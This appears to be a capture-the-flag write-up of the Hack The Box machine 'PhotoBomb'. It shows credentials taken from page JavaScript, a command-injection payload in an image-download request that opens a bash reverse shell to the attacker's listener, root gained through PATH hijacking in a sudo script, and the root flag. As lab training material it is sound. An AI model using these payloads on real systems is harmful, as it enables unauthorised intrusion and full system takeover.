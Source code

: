 ```yaml
---
title: "PhotoBomb from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# PhotoBomb from HTB
add this to `/etc/hosts`
```
10.10.11.182 photobomb.htb
```
Then access the site.
Click the only link there is and it will ask for `password and username`.
To find it click `CTRL+U`and then go to `js`file. There you will find `password and username`:
```bash
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
```
`pH0t0:b0Mb!`here it is.
Now click `link`and log in.
Turn on `BurpSuite + Intercept`and then choose photo and click download.
Modify the request in `BurpSuite`like this to get `reverse shell`:
```bash
photo=nathaniel-worrell-zK_az6W3xIo-unsplash.jpg&filetype=jpg;bash+-c+'sh+-i+>%26/dev/tcp/<your_ip>/<port> +0>%261';&dimensions=600x400
```
`Turn on netcat listener`and then wait for connection.
```bash
rlwrap nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.182] 56000
sh: 0: can't access tty; job control turned off
$ script /dev/null -c bash
Script started, file is /dev/null
wizard@photobomb:~/photobomb$ sudo -l
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
Read what the code does and then we get that it resets `enviroment`and set a new one.
Then create an file, name whatever you want and use this commands:
```bash
echo '/bin/bash' > /tmp/help
chmod +x /tmp/help
sudo PATH=/tmp:$PATH /opt/cleanup.sh
root@photobomb:/tmp#
```
You are root now.
***
Root Flag is: c2586fb0adc030681ba4833377607789
***
![](/assets/images/Screenshot from 2024-08-14 17-11-15.png)
